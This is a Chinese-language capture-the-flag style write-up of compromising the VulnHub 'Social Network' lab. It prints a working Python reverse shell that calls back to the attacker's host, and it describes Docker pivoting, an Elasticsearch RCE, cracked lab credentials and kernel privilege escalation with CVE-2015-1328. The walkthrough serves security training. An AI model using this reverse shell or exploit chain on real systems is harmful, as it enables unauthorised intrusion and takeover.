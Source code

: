 ```yaml
---
title: VulnHub靶场 Medium Socnet
description: VulnHub靶场 Medium Socnet WP
pubDate: 10 18 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


靶机下载连接：[BoredHackerBlog: Social Network \~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)

## Web 渗透

进行主机发现，由于是在用一网段下，所以使用二层 ARP 发现，发现如下主机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-1.webp)

其中 `192.168.135.192` 是物理机器，`192.168.135.2` 是手机，对 22 和 47主机进行服务探测，找出我们的靶机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-2.webp)

找到靶机为 `192.168.135.22`，在 5000 端口下开放了一个 Python 语言的 HTTP 服务，进行访问，来到如下界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-3.webp)

进行测试，页面没啥东西，进行目录扫描，发现 `/admin` 路径，页面如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-4.webp)

可进行命令执行，插入一个 Python 反弹 shell，同时 nc 启动监听

```python
import socket, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.135.192", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("sh")
```

反弹成功，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-8.webp)

## 内网渗透

进行基本查看，ls 命令发现 Dockerfile 文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-9.webp)

目标机器是一个 docker 容器，查看一下 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-10.webp)

目标机器只有一个内网网卡，为 `172.17.0.2/16` ，而我们访问的是 `192.168.135.22`，更能说明这是一个 docker 容器

使用 venom 搭建 socks5 隧道，在本地通关 python 搭建简单 HTTP 服务器，然后通过 wget 将 venom 客户端下载到目标靶机，搭建隧道

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-11.webp)

隧道搭建成功，连接本地 1234 端口即可实现隧道通信。使用 Proxifier 代理，对 `172.17.0.2/16` 进行扫描，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-14.webp)

发现 `172.17.0.1`，并且它也开启了 5000 端口，访问后发现和 `172.17.0.2` 是一样的。对其余 IP 再进行探测

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-13.webp)

发现 `172.17.0.3`，并且开放 9200 端口，对该端口进行详细的服务扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-15.webp)

是一个 1.4.2 版本的 `Elasticsearch REST API`，该应用曾经有过 RCE，去找一下有没有 EXP，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-16.webp)

查看该 EXP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.webp)

是一个 python2 版本的 exp，用 python3 格式重新写一下，然后直接利用试试，上来直接拿到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-18.webp)

ls 命令发现有个 passwords，里面是用户密码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-19.webp)

挨个解 MD5，得到如下结果

```
john:1337hack
test:1234test
admin:1111pass
root:1234pass
jane:1234jane
```

尝试使用 SSH 登录，结果只有 `john:1337hack` 成功登录，没有 sudo 权限。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-20.webp)

注意到 Linux 内核版本为 `3.13.0` ，上传扫描脚本，开扫！

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-21.webp)

没 sudo 权限，dirtycow 用不了，选择使用 `CVE-2015-1328`。靶机没 GCC

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-22.webp)

先编译成二进制文件，再上传执行

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-23.webp)

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-24.webp)

失败了，看一下代码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-25.webp)

这个地方，它又重新调用了 gcc 去生成了一个 `/tmp/ofs-lib.so` 库文件，但是靶机是没有 gcc 的，所以它无法生成这个库文件。

嗯……生成的二进制文件要生成一个库文件，那我们直接把这段代码给他删了，然后直接在目标目录下放一个已经设置好的库文件呢？

修改代码，重新编译

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-28.webp)

然后找 `ofs-lib.so`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-27.webp)

把他们全部放到靶机里，库文件放到 `/tmp` 下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-29.webp)

提权成功。
